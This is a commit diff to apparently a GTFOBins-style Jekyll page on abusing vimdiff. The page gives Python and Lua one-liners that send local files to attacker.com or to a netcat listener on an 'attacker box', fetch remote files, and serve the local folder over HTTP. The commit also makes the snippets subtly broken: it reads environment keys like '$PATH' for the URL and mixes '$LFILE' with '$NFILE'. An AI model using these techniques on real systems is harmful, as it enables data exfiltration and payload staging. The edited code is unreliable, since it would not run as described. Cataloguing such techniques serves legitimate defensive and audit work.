

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/vimdiff.md, in a window 1280 px wide and 1400 px high, cut to the strip 339-1400 px from the top of the window. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update vimdiff.md

```diff
--- a/_gtfoud/vimdiff.md
+++ b/_gtfoud/vimdiff.md
@@ -3,54 +3,45 @@
   file-upload:
     - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         vimdiff -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
+        r.urlopen(e["$PATH"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
         vim.command(":q!")'
-    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=8888
-        vimdiff -c ':py import vim,sys; from os import environ as e
-        if sys.version_info.major == 3: import http.server as s, socketserver as ss
-        else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
-        vim.command(":q!")'
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        vimdiff -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
+        vimdiff -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
           local d=f:read("*a")
           io.close(f);
           local s=require("socket");
           local t=assert(s.tcp());
-          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
           t:send(d);
           t:close();'
+  server:
+    - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+      code: |
+        vimdiff -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import http.server as s, socketserver as ss
+        else: import SimpleHTTPServer as s, SocketServer as ss
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
+        vim.command(":q!")'
   file-download:
     - description: This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         vimdiff -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])
+        r.urlretrieve(e["$RPATH"], e["$LFILE"])
         vim.command(":q!")'
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=12345
-        export LFILE=file_to_save
         vimdiff -c ':lua local k=require("socket");
-          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local s=assert(k.bind("*",os.getenv("$LPORT")));
           local c=s:accept();
           local d,x=c:receive("*a");
           c:close();
-          local f=io.open(os.getenv("LFILE"), "wb");
+          local f=io.open(os.getenv("$NFILE"), "wb");
           f:write(d);
           io.close(f);'
 ---
```
